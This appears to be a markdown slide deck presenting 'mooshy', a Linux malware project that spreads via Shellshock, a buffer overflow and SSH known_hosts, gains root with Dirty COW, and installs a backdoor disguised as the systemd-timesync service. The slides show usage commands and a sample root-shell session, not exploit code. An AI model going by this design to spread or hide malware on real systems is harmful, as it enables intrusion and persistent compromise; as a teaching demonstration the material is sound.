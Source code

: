 % mooshy
% [ˈmuʃi]

# Introduction

## mooshy?
* Infection and execution of arbitrary code as root
* Targets Linux servers
* Exploits several user and kernel space vulns
* Written in Go with a touch of C

## Components
* `mooshy`: front-end for infection
* `moosh`: payload
* `cow`: exploit implementing Dirty COW
* `hhttpd`: a PoC web server to illustrate a buffer overflow

# 1. Infection

## Shellshock
* `$ mooshy -shellShock -addr ...`
* CVE-2014-6271
* Sends a GET request to the specified `addr`
* Embedded script downloads `moosh` and executes it

## Buffer overflow
* `$ mooshy -bufferOverflow -addr ...`
* Using buffer overflow in `hHTTPd`
* Injects shellcode
* Again, downloads `moosh` and executes it

## SSH
* `$ mooshy -ssh -addr ...` _or_ `-sshKnown`
* Uses regular SSH access
* Connects to `addr` or addresses in `known_hosts` file
* Copies and executes the `moosh` binary

# 2. Escalation

## Dirty COW
* CVE-2016-5195
* Gains root
* ![Dirty COW](https://upload.wikimedia.org/wikipedia/commons/1/1b/DirtyCow.svg)

# 3. Backdoor

## Installation
* Installs the backdoor on the system
* Disguised as `systemd-timesync` service
* Cleans up temporary files

## Invocation
```sh
$ mooshy -addr 192.168.56.102:22 # any open port
TCP socket opened on 0.0.0.0:42424
Received connection from 192.168.56.102:39414
root@cow:/# 
```

# Demo {data-background-image="https://media.giphy.com/media/Gr2A63jJz1fFe/giphy.gif"}

